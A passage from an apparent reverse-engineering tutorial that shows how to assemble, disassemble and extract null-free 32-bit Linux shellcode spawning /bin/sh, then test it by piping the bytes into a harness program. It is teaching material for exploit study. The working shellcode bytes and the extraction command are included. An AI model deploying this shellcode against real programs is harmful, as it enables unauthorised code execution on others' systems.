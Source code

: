 2. Assemble, link and run it: 

        rev_eng_series/roughwork$ nasm shell32_no_null.asm -f elf32
        rev_eng_series/roughwork$ ld shell32_no_null.o -o shell32_no_null -m elf_i386
        rev_eng_series/roughwork$ ./shell32_no_null
        $ 
        $ whoami
        adwi
        $ 

    * We got a shell!!

3. Extract shellcode from it. The following is the objdump output. 

        rev_eng_series/roughwork$ objdump -Mintel -d shell32_no_null


        shell32_no_null:     file format elf32-i386


        Disassembly of section .text:

        08048060 <_start>:
        8048060:	31 c0                	xor    eax,eax
        8048062:	50                   	push   eax
        8048063:	68 2f 2f 73 68       	push   0x68732f2f
        8048068:	68 2f 62 69 6e       	push   0x6e69622f
        804806d:	89 e3                	mov    ebx,esp
        804806f:	50                   	push   eax
        8048070:	53                   	push   ebx
        8048071:	89 e1                	mov    ecx,esp
        8048073:	31 d2                	xor    edx,edx
        8048075:	b0 0b                	mov    al,0xb
        8048077:	cd 80                	int    0x80

        08048079 <exit>:
        8048079:	31 c0                	xor    eax,eax
        804807b:	b0 01                	mov    al,0x1
        804807d:	31 db                	xor    ebx,ebx
        804807f:	cd 80                	int    0x80
    

    * Extract shellcode and store it in **exploit.txt**. 

            rev_eng_series/roughwork$ python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80'" > exploit.txt 

5. Test our shellcode using **code2_32** program. 

        rev_eng_series/roughwork$ cat exploit.txt - | ./code2_32
        whoami
        adwi


        who
        adwi     tty7         Nov 26 17:51 (:0)
        clear
        TERM environment variable not set.
